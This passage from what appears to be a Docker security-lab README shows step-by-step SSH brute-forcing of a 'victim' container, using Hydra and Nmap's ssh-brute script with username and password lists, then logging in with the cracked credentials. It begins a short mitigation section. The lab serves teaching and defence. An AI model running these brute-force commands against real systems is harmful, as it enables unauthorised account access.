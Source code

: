 In our case:

`hydra -L users.txt -P passwords.txt ssh://10.5.0.2 -t 4`

Note the username and password outputed by hydra.

### Step 3
Connect to the victim container via ssh using the credentials you noted in the previous step:

`ssh <username>@10.5.0.2`

In our case:

`ssh test@10.5.0.2`

And proceed to use the password to gain access to the vulnerable machine.

## Multiple Login attempt method (part 2)
This method is pretty much identical to the first one, only it does not use Hydra and relies on Nmap's scripting functionality.

### Step 1
Get the malicious container ID:

`MALICIOUS_CONTAINER_ID=$(sudo docker ps -aqf "name=malicious_container")`

... and then run 'bash' in the container:

`sudo docker exec -it $MALICIOUS_CONTAINER_ID bash`

On the malicious container, run a scripted nmap to find open ports in the whole network range and attack the vulnerable one at once (replace arguments in `< >` with your own desired values):

`nmap <network_ip>/<subnetmask> -p 22 --script ssh-brute --script-args userdb=<usernames_file.txt>,passdb=<passwords_file.txt>`

In our case:

`nmap 10.5.0.0/24 -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt>`

## Attack Mitigation

### Step 1
Get the victim container ID:

`VICTIM_CONTAINER_ID=$(sudo docker ps -aqf "name=victim_container")`

... and then run 'bash' in the container:

`sudo docker exec -it $VICTIM_CONTAINER_ID bash`


### Step 2
See active SSH sessions:

`who`
